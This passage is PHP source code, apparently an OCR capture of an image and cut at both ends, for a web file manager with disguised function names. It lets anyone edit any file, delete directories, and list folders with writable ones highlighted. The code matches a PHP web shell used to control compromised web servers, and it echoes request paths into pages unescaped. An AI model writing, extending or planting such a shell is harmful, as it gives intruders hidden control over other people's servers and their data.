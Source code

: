             if (fwrite($fp, $_POST['src'])) {
                echo '<center><font color="#00ff00">Edit File Success!.</font></center><br />';
            } else {
                echo '<center><font color="red">Edit File Failed!.</font></center><br />';
            }
            fclose($fp);
        }
        echo '
        <form method="POST"><br><a href="?path='.$path.'"> < back </a><br><br>Edit File:
        <td><center><textarea cols=120 rows=25 name="src">' . htmlspecialchars($__fgetcon7s($_POST['path'])) . '</textarea>
        </div><br /><input type="hidden" name="path" value="' . $_POST['path'] . '"> 
        <input type="hidden" name="opt" value="edit">
        <input type="submit" value="Save"/>
        ';
    }
    echo '</center>';
} else {
    echo '</table><br /><center>';
    if (isset($_GET['option']) && $_POST['opt'] == 'delete') {
        if ($_POST['type'] == 'dir') {
            if ($rm__dir($_POST['path'])) {
                echo '<center><font color="#00ff00">Dir Deleted!</font></center><br />';
            } else {
                echo '<center><font color="red">Delete Dir Failed!</font></center><br />';
            }
        } elseif ($_POST['type'] == 'file') {
            if ($un__link($_POST['path'])) {
                echo '<font color="#00ff00">Delete File Done.</font><br />';
            } else {
                echo '<font color="red">Delete File Error.</font><br />';
            }
        }
    }
    echo '</center>';
    $_scdir = $__scdir($path);
    echo '<div id="content"><table width="100%" border="0" cellpadding="3" cellspacing="1" align="center"><tr class="first"> <th width="1%"><center>Pic</center></th><th width="15%"><center>Name</center></th><th width="10%"><center>Size</center></th><th width="5%"><center>Type</center></th><th width="10%"><center>Permissions</center></th> <th width="15%"><center>Last Update</center></th><th width="11%"><center>Options</center></th></tr>';
    foreach ($_scdir as $dir) {
        if (!is_dir("$path/$dir") || $dir == '.' || $dir == '..')
            continue;
        echo "<tr><td><img src='https://img.icons8.com/external-vectorslab-flat-vectorslab/2x/external-folder-project-management-and-web-marketing-vectorslab-flat-vectorslab.png' alt='Smiley face' width='25' heght='25'></td><td><a href=\"?path=$path/$dir\">$dir</a></td><td><center>--</center></td><td><center>Folder</center></td><td><center>";
        if (is_writable("$path/$dir"))
            echo '<font color="#00ff00">';
        elseif (!is_readable("$path/$dir"))
            echo '<font color="red">';
        echo perms("$path/$dir");
        if (is_writable("$path/$dir") || !is_readable("$path/$dir"))
            echo '</font>';
        echo "</center></td><td><center>" . date("d-M-Y H:i", filemtime("$path/$dir")) . "";
        echo "</center></td> <td><center><form method=\"POST\" action=\"?option&path=$path\"><select name=\"opt\"><option value=\"\"></option><option value=\"delete\">Delete</option><option value=\"rename\">Rename</option></select><input type=\"hidden\" name=\"type\" value=\"dir\"><input type=\"hidden\" name=\"name\" value=\"$dir\"><input type=\"hidden\" name=\"path\" value=\"$path/$dir\"><input type=\"submit\" value=\"&#x276F;\" /></form></center></td></tr>";
    }
    foreach ($_scdir as $file) {
        if (!is_file("$path/$file"))
            continue;
        $size = filesize("$path/$file") / 1024;